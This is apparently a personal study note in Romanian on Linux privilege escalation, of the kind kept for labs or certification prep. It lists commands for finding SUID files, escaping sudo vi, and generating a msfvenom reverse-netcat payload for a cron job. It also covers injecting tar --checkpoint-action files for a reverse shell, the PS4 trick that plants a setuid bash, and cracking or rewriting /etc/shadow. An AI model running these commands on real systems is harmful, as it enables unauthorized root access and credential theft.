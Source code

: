 ![[Pasted image 20240423191114.png]]
Sunt 2 tipuri dea ridica privilegile `horizontal privesc` si `vertical privesc`. 
1. Primul tip de `privesc` este exploatarea la `kernel` dar nu este stabil putem strica masina virtuala :(.
2. [[SUID]] (Set owner User ID up on execution) file - permite rularea fisierului ca si cum acesta ar fii `own`-url acestui fisier daca proprietarul este `root`. Putem sa primim privilegile de `root`
3. [[crontab]] - se executa unele sarcine la anumit timp. 
### Suid bit
Priviligile maximale sunt `rwx-rwx-rwx`:
r = citire
w = scriere
x = executare
#### Exemplu 
RWX   RWX    RWX  
_421     421     421_
[[SUID]] (Set user ID), [[SGID]] (Set Group ID) - pentru [[SUID]] bitul(owner) se pune la `4`. Si pentru [[SGID]] se pune la `2`
[[SUID]]:
RWS-RWX-RWX
[[GUID]]:
RWX-RWS-RWX

Aceste fisiere sunt importante pentru a ridica privilegile putem sa le gasim cu comand:
```bash
find / -perm -u=s -type f 2>/dev/null
```

### Add new user in `/etc/passwd` (manual)
`/etc/passwd` - sunt stocate datele despre utilizatori 
`/etc/shadow` - sunt stocate doar parolele in format de tip hash
`/etc/group` - informatie despre cine apartine la ce group

Pentru a adauga un user nou in `/etc/passwd` manul avem nevoie de o parola aces lucru este posibil cu:
```bash
openssl passwd -1 -salt [salt][password]
```
Mai multe detalii aici [[openssl]]
### Vi 
De fiecare data cand avem credintialele pentru un utilizator trebuie sa rulam:
```bash
sudo -l
```
Aceasta comanda ne permite sa vedem ce programe pot fii rulate ca super user:
Urmatorul pas este sa vedem pe situl dat https://gtfobins.github.io/ daca este o metoda dea ridica privilegile:
In cazul nostru este programa [[vi]] care poate fii rulata ca `root` pe [[GTFObins]] putem gasi aceasta comanda:
```bash
sudo vi -c ':!/bin/bash' /dev/null
```
### CronTab
Daca avem un `job` care se ruleaza cu privilegi mai mari putem face in felul urmator sa generam un payload cu [[msfvenom]] si dupa asta sal executam prin [[crontab]] care apeleaza la scriptul nostru:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=IP lport=PORT R
```

### PATH
In car ca avem posibilitati sa modificam variabela `PATH` putem schimba si locul de unde acesta cauta comenzile care pe urma si le ruleaza:
Pentru a gasi care directore putem inscrie putem folosi:
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

### Check List
- [https://github.com/netbiosX/Checklists/blob/master/ Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/ Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

### MySQL
In caz ca baza noastra de date se ruleaza cu aces de `root` fara a cere parola putem face o functie cu tehnologiea [[UDF]] care ne permite sa creem functi personale pentru a extinde functionalul:
Aici este un exemplu de functie de [[UDF]]: https://www.exploit-db.com/exploits/1518 si explicatiea cum acesta trebuie sa fie pornit. :)

### shadow
Problema cea mai mare cu fisierul dat este ca daca noi putem sal citim sau sal modificam atunci avem 2 metode de actiona:
- Daca putem sal citim putem sparge parola cu instrumente de tipul `bruteforce` [[john]]: 
```bash
john --wordlist=rockyou.txt hash.root.txt 
```
- Daca noi putem sal modificam intrun fel putem sa adaugam la el un hash generat de noi insusi[[openssl]]:
```bash
openssl passwd -1 -salt salt password
```
Sau(de dorit ca in shadow sa fie inclus cu comanda de mai jos)[[mkpasswd]]
```bash
mkpasswd -m sha-512 newpassword 
```
### Ridicarea privilegilor cu librari dinamice
[[ldd]] - este o utilita care ne arata care librari dinamice sunt incarcate pentru programul dat
`LD_PRELOAD` - este folosit pentru a incarca o librarie aditional sau suplimentar inaintea celor lalte:
```bash
sudo LD_PRELOAD=/path/to/lib.co app
```
In felul dat noi special incarcam o librarie in program:

`LD_LIBRARY_PATH` - cauta dupa linkuri dinamice unde se afla libraria aceasta. Nu garanteaza care librarie se va incarca prima.
```bash
sudo LD_LIBRARY_PATH=/path(se da un directoriu) app
```

### CronTab (PrivEsc)
Daca nu tragem atentia la cine poate modifica fisierul care este in [[crontab]] acesta poate sa-si ridice privilegile. 
#### CronTab WildCards *
Daca in crontabe este simbolul dat atunci putem executa un shell generat de noi * in felul urmator cream 2 fisiere care vor fii utilizate nu ca fisiere dar ca instruciti pentru comanda [[tar]]:
```bash 
touch "/home/user/--checkpoint"
touch "/home/user/--checkpoint-action=exec=shell.elf"
```
Acesta ne va transmite un `revers-shell` la masina noastra:

### SUID-SGID
Pentru a gasi toate fisierele de acest tip putem folosi:
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null 
```
`-a` → pentru operatorul logic `and`
`-o` → pentru operatorul logic `or`
Sau:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Acest lucru nu va lucra cu versiunea la [[bash]] mai noua de `4.4`
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

### Password history 
Daca utilizatorul a introdus parola direct in terminal ci nu in proptul de parola acesta poate fii vazut:
```bash
cat ~/.*history | less 
```
In cazul dat folosim [[cat]], [[less]]:

### NFS 
[[NFS]] daca nu e setat normal putem sa ne ridicam privilegile setarile pentru acest serviciu se afla in `/etc/exports`.
Pentru a monta un directoriul pentru serviciul [[NFS]] folosim comanda:
```bash
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
Pentru a vedea toate directoarele care sunt in `sharing` putem folosi comanda cu utilita [[showmount]]:
```bash
showmount -e IP
```
Ne va returna toate directoarele care sunt pe sistemul nostru.
### Kernel Exploit 
Acest tip de privilege poate lasa sistema nestabila rulam [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) pentru a scana kernelul. Putem folosi site-ul pentru a gasi exploituri penru kernul [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)

### Capabilities?
Pentru acesta avem nevoie de instrumentul [[getcap]] sintaxa arata:
```bash
getcap -r / 2>/dev/null
```
Si deja privim daca `GTFobins` ne poate ajuta cu ceva:
### Istrumente pentru scanare
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
